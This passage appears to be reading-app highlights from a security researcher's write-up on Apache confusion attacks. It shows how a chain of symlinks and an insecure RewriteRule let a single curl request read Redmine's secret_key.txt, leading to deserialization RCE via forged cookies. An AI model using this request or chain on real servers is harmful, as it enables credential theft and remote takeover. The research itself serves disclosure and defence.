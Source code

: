 
any package that has a Symbolic Link in its installation directory pointing outside of `/usr/share` can become a stepping-stone to access more gadgets [](https://read.readwise.io/read/01jnnjmkjmvnbwc881mf4av7th)



• **Cacti Log**: `/usr/share/cacti/site/` -> `/var/log/cacti/`
 • **Solr Data**: `/usr/share/solr/data/` -> `/var/lib/solr/data`
 • **Solr Config**: `/usr/share/solr/conf/` -> `/etc/solr/conf/`
 • **MediaWiki Config**: `/usr/share/mediawiki/config/` -> `/var/lib/mediawiki/config/`
 • **SimpleSAMLphp Config**: `/usr/share/simplesamlphp/config/` -> `/etc/simplesamlphp/` [](https://read.readwise.io/read/01jnnjmvah0zgqs695yjq9avwa)



✔️ 2-3-2. Jailbreak Local Gadgets to Redmine RCE [](https://read.readwise.io/read/01jnnjn0smnk7avt78cyy8vr9b)



let’s showcase how to perform an RCE using a double-hop Symbolic Link in Redmine. [](https://read.readwise.io/read/01jnnjns82hsrp1zs1hbpr9tgy)



there’s an `instances/` folder pointing to `/var/lib/redmine/`, and within `/var/lib/redmine/`, the `default/config/` folder points to the `/etc/redmine/default/` directory, which holds Redmine’s database setting and secret key. [](https://read.readwise.io/read/01jnnjpdtebankgwchjcddbrm6)



$ file /usr/share/redmine/instances/ 
 symbolic link to /var/lib/redmine/ 
 $ file /var/lib/redmine/config/ 
 symbolic link to /etc/redmine/default/ 
 $ ls /etc/redmine/default/ 
 database.yml secret_key.txt [](https://read.readwise.io/read/01jnnjpj8ycra0hezx52cc4y44)



through an insecure `RewriteRule` and two Symbolic Links, we can easily access the application secret key [](https://read.readwise.io/read/01jnnjpt8q9znxh22d1wkj6s6n)



$ curl http://server/html/usr/share/redmine/instances/default/config/secret_key.txt%3f 
 HTTP/1.1 200 OK 
 Server: Apache/2.4.59 (Ubuntu) 
 ... 
 6d222c3c3a1881c865428edb79a74405 [](https://read.readwise.io/read/01jnnjpxnmwcn603wygaah9qyp)



since Redmine is a Ruby on Rails application, the content of `secret_key.txt` is actually the key used for signing and encrypting. [](https://read.readwise.io/read/01jnnjqdcv32cfqj2r9wn57t7k)



by embedding malicious Marshal objects, signed and encrypted with the known keys, into cookies, and then achieving remote code execution through Server-Side Deserialization!
 ![](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/9f927a5ccd4a2a69-08.png) [](https://read.readwise.io/read/01jnnjqnp8n01r5xm2krh71b6z)

